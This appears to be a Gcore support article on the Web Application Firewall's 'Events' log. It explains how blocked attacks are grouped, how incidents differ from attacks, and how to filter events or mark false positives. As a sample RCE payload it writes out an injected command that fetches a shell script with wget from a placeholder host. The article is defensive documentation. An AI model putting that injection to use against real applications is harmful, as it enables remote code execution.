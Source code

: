 ```yaml
---
title: view-the-history-of-attacks-on-your-application
displayName: View events
published: true
order: 10
toc:
   --1--About the function: "about-the-function"
   --1--Why to use: "why-to-view-events"
   --1--How to use: "how-to-use-events"
   --2--Open a list of events: "open-a-list-of-events"
   --2--Filter: "apply-filters"
   --2--Mark requests as false positive: "mark-requests-as-false-positive"
---
```

   
   
   
           
           
         

**About the function**
----------------------

“Events" is a log that stores information about all malicious requests for your resources that were repelled by the [Web Application Firewall (WAF)](https://gcorelabs.com/ddos-protection-for-web-applications/#block3). This is what the log looks like:

<img src="https://support.gcore.com/hc/article_attachments/13308735756561" alt="mceclip0.png">

Each line in the log is called an _event_. An event is a single malicious request or several such requests connected to each other. For example, if a hacker sends one request to inject malicious code into the structure of an XML document, the log shows this as a separate event. And if a hacker makes a thousand requests to guess a password, the log groups all requests into one event with the "brute force" type of an attack. You can open such an event and view information on each of the thousand of requests.  

The WAF combines several requests into one event if they have three things in common:  

1.  **Type of attack** — sqli, xss, rce, ptrav, crlf, nosqli, overlimit\_res, xxe, ldapi, scanner, ssti, ssi, mail\_injetion, invalid\_xml, data\_bomb, dirbust, brute, vpatch, infoleak or redir.  
    
2.  **Payload** — part of a malicious request that contains instructions on what to do with the attacked application and helps to define the type of an attack. Example: an attacker wants to inject malicious code into your application (RCE attack) and makes the following request: _curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome\_host%2Fsh311.sh._ The malicious payload is _;wget+http://s_. It says to start data downloading in the application. Please note that some malicious requests have no payload, for example, behavioral attacks (different types of brute force attacks). 
3.  **URL of a page or an application file** to which the request was sent.  

At the same time, an attacker's IP address and the time of requests may differ. Even if requests are sent from different IP addresses and on different days, but they use the same attack type, payload and attacked URL, they will be combined into one event.

<img src="https://support.gcore.com/hc/article_attachments/7363054594833/image_1863.png" alt="image_1863.png">

All events in the log are divided into two types: attacks and incidents. 

**An attack** is any malicious request. 

Not all events of the _attack_ type are dangerous. Some malicious requests cannot cause damage because they target well-protected parts of an application. Your application would handle such requests even without the WAF. But other requests pose a real threat because they target vulnerabilities — if the WAF had not stopped them, they would have damaged the application. These requests are the _incidents_. 

**An incident** is a malicious request that targets a vulnerability of an application.  

When the WAF receives a malicious request, it blocks it and creates an event of the _attack_ type. Then it analyses if this request targets a vulnerable part of an application or a well-protected one. If the target is a vulnerable part, the WAF creates an _incident_, if it is a well-protected one, the WAF does nothing. 

How our WAF detects vulnerabilities: 

1.  From time to time, it sends different malicious test requests to check the application's response. Such requests are not dangerous, but they help to find out how the application would behave in the event of a real attack.  
    
2.  When a real attack occurs, the WAF blocks it. Then the WAF copies the attacking request, cuts out the malicious part and cookies from it, and sends several similar requests to the application on its own behalf. These requests won't cause damage, but will help find out how the application would react to an attack if the WAF didn't stop it.  
    
3.  It evaluates the result of the checks from Steps 1 and 2. If the requests have reached their goal, the WAF considers that there is a vulnerability; if the application's response does not indicate that it is vulnerable to an attack, then there is no vulnerability.

Example of the check: an attacker sends a request of the “open redirect” (redir) type — this type of attack changes links inside your application so that when an end-user clicks on a link, they get to a scammer’s page. The WAF detects the malicious request, cuts out cookies and the malicious part from it, and then sends several such "neutralized" requests to the application on its behalf. If the application does not deny requests, the WAF counts it as a vulnerability; if the application blocks requests, the WAF considers that there is no vulnerability. 

Why to view "Events"?   
------------------------

"Events" will show detailed information about malicious requests sent to your application. Here are three examples of when this can be useful.  

**Detect and fix vulnerabilities.** You open events of the "incident" type and see which parts of your application are vulnerable and to which types of attacks. Then you eliminate these vulnerabilities.   

**Prevent attacks from specific scammers.** With the event log, you check whether your application is frequently attacked from a specific region or from a specific IP address. Such attacks are harmless (the WAF blocks them), but your server has to process them and waste resources. To offload your server resources, you exclude attacking IP addresses or the most attacking region in the "Access Settings" according to the guide: [Access Policy](https://gcorelabs.com/support/articles/360000579197/).  

**Collect analytics data to protect the non-public part of your application.** You analyze the log of malicious requests and figure out the most common attack methods and attacking IP addresses. With this in mind, you arrange internal resources that are not protected by the WAF (for example, an application administration panel or a non-public platform for employees) so that they are protected from common types of attacks. You also block IP addresses of scammers that often send malicious requests.  

How to use "Events"  
---------------------

### **Open a list of events**

Go to "Events" and select which events you want to see — incidents or attacks. The list of events opens.

<img src="https://support.gcore.com/hc/article_attachments/13308771037585" alt="mceclip1.png">

The list shows the following columns:  

*   **Date** — date when the latest request of the event is received.   
*   **Hits** — number of separate requests (one hit is one request) grouped inside the event.   
*   **Payloads** — type of the attack.  
*   **Top IP / Source** — country code to which the attacker's IP address belongs to.  If there are several addresses, the column shows the code of the country from where the most requests were sent.   
*   **Domain / Path** — domain name of the application to which the request was sent, as well as the path that was requested. The last line shows the application ID from the Gcore control panel.   
*   **Code** — response code returned to the malicious request.   
*   **Parameter**— parameter that the malicious request contained. If a request uses an attack without an endpoint (for example, brute force attacks), the line will show the "unknown" value. 

If an event contains multiple requests, you can expand the list of all requests by clicking on the "+" icon on the left of the date. For each request, you will see general information: _date, payloads, top IP/source, domain/path, code, parameter_. Besides, there will be two additional columns: the request size and the time that the WAF spent processing the request.

### **Apply filters**  

To sort events, use filters.

<img src="https://support.gcore.com/hc/article_attachments/7363274806929/image_1835.png" alt="image_1835.png">

**Selected Types** — types of attacks. Twenty types are available: sqli, xss, rce, ptrav, crlf, nosqli, overlimit\_res, xxe, ldapi, scanner, ssti, ssi, mail\_injetion, invalid\_xml, data\_bomb, dirbust, brute, vpatch, infoleak, redir.

**Time interval** — period for which you want to view the events. You can only view events recorded for the last three months, older events are not saved.

**Application** — applications that received malicious requests. If you do not apply the filter, the log will show all requests sent to all applications of your account.

**IP** — IP addresses that have sent the requests. You can specify specific IP addresses or a range of addresses like 10.0.0.0–10.255.255.255. If you do not apply the filter, you will see events with requests sent from any IP addresses.

**Domains** — URLs of pages or files that were requested by attackers. If you don't use the filter, you will see events with the requests sent to all your domains. 

**Response Code** — response codes returned to the malicious request. If you do not use the filter, you will only see the requests that received 403 and 500 errors.

**Target** — targets of malicious requests. You can filter the attacks that targeted user data (the target is _client_), databases (the target is _database_), or a server (the target is _server_). If nothing is applied, the log will show requests to all three targets.

**Selected Countries** — countries from those requests were sent.  If you don't use the filter, requests from 249 countries will be displayed. 

### Mark requests as false positive

If the WAF has blocked a legitimate request, click the "+" icon in the event line (after clicking it will change to "–"), and then click the "Mark as false positive" button. The WAF will stop blocking such requests.

<img src="https://support.gcore.com/hc/article_attachments/13308797025553" alt="mceclip2.png">